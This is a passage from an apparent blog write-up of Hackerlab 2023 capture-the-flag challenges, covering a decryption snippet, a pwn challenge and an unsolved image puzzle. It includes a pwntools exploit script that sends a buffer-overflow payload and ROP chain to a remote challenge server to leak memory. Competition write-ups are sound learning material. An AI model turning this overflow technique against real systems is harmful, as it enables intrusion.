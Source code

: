 ```python
decrypted_treasure = []
for c in recept:
    rd = random.randint(0, 255)
    b = (int(c) - int(rd)) % 256
    decrypted_treasure.append(b)
print(decrypted_treasure)
original_treasure = bytes(decrypted_treasure).decode()
print(original_treasure)
```

As I did not solve it I will simply provide a [link to my favorite solution](https://raw.githubusercontent.com/parfaittolefo/Hackerlab2023/main/Basic/Challenge%20file/utc_solves.py)


# Le fâ (solved: 100pts)

Pwn challenge I could not pwn [chall](/hackerlab2023/fa/chall)

```py
from pwn import *

context.binary = "chall"
s = remote("54.37.70.250", 2002)
s.sendafter(b": ",
  b"a"*0x28 +
  p64(0x400b03) + # pop rdi
  p64(0x6010c0) + # username
  #p64(0x6010e0) + # password
  p64(0x4006a0)[:-1])  # puts
s.shutdown("send")
print(s.recvall())

```

I won't even try to explain just go [here](https://github.com/parfaittolefo/Hackerlab2023/blob/main/Basic/Hackerlab_2023_qualif-PWN-Le-F%C3%A2.md)

# Puzzle (solved: 120pts)

This one was weird and fun but could not solve it too. Here are the pieces

- [part 1](puzzle/part1.fbx)
- [part 2](puzzle/part2.jpeg)

For part 2 I used cyberchef magic to retrieve this awesome cool photo of king behanzin

{{< post-img src="puzzle/behanzin.jpeg" alt="Hackerlab" style="width:200px" >}}

Annnd then I got stuck...well I could not find a solution writeup yet so I will update this when available



# Qualification Stages
